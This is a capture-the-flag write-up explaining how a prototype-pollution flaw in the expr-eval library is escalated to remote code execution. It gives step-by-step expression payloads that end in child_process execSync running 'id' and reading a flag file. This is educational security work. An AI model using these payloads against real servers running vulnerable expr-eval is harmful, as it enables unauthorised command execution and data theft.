## ProtoCalc

From the challenge name and description, we can figure out that we are faced with a prototype pollution challenge. The challenge description mentions that `expr-eval` is being used. A quick google search reveals this:



From the GitHub page of `expr-eval`, we go to the issues tab and search for closed issues for Prototype Pollution, to see if there were any fixes:



This leads us to the fix: https://github.com/silentmatt/expr-eval/pull/252

The post for this fix also contains a PoC, which may be useful for us:



The PoC payload is:
`Object=constructor;a=Object.fromEntries([["a","polluted"]]);Object.assign(__proto__, a)`



The PoC proves that we are able to use `Object.assign` to manipulate the prototype chain.

However, we need a method to obtain RCE to read the flag. Let's expand upon this idea.

We can create a variable for `constructor`. We will call this variable `c`.


Our aim is to pollute a function prototype's constructor with a malicious JavaScript payload.

When we create a new function, it will inherit the properties of the Function prototype, and execute the payload that we define.

I will use the built in function `toString` for this purpose. We can obtain `Function.prototype` with `fp=c.getPrototypeOf(toString)`.

Check the documentation of the methods `getPrototypeOf` and `getOwnPropertyDescriptor`.
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/getPrototypeOf
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/getOwnPropertyDescriptor

We then construct this payload:
`c=constructor; fp=c.getPrototypeOf(toString); fpcd=c.getOwnPropertyDescriptor(fp, "constructor"); fpcd;`
This payload allows us to get the property descriptor of the `constructor` property on the Function prototype.


If we pollute the `value` field, we can create our own function that executes malicious JavaScript code.

At the moment, we cannot access the `value` field via the variable `c`:


We can use the `assign` method to assign the property descriptor `fpcd` to the `__proto__` property of the global `constructor` function.
Check the documentation of the `assign` method.
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/assign

After executing the code `c.assign(__proto__, fpcd);`, we will pollute `value` to `Function.prototype.constructor`, and we should be able to access `value` via `c`.

Full payload: `c=constructor; fp=c.getPrototypeOf(toString); fpcd=c.getOwnPropertyDescriptor(fp, "constructor"); c.assign(__proto__, fpcd); c.value;`


Now, we will try executing arbitrary JavaScript code:
`c=constructor; fp=c.getPrototypeOf(toString); fpcd=c.getOwnPropertyDescriptor(fp, "constructor"); c.assign(__proto__, fpcd); f=c.value("return 'polluted :)'"); f();`


Great, we are able to execute arbitrary JavaScript on the server. But we are not done yet. We still need RCE.
For that, we need to bypass the sandbox restrictions. This blog post gives us a payload that we can use:
https://medium.com/faraday/bypassing-a-restrictive-js-sandbox-d2d13e02e542

The payload is: `global.process.mainModule.constructor._load("child_process").execSync("id").toString()`

Integrating this into our payload, our final payload looks like this:
```node
c=constructor;
fp=c.getPrototypeOf(toString);
fpcd=c.getOwnPropertyDescriptor(fp, "constructor");
c.assign(__proto__, fpcd);
f=c.value("return global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString()");
f();
```

Which gives us RCE:


We can now read the flag.
```node
c=constructor;
fp=c.getPrototypeOf(toString);
fpcd=c.getOwnPropertyDescriptor(fp, "constructor");
c.assign(__proto__, fpcd);
f=c.value("return global.process.mainModule.constructor._load(\"child_process\").execSync(\"cat /flag/flag.txt\").toString()");
f();
```

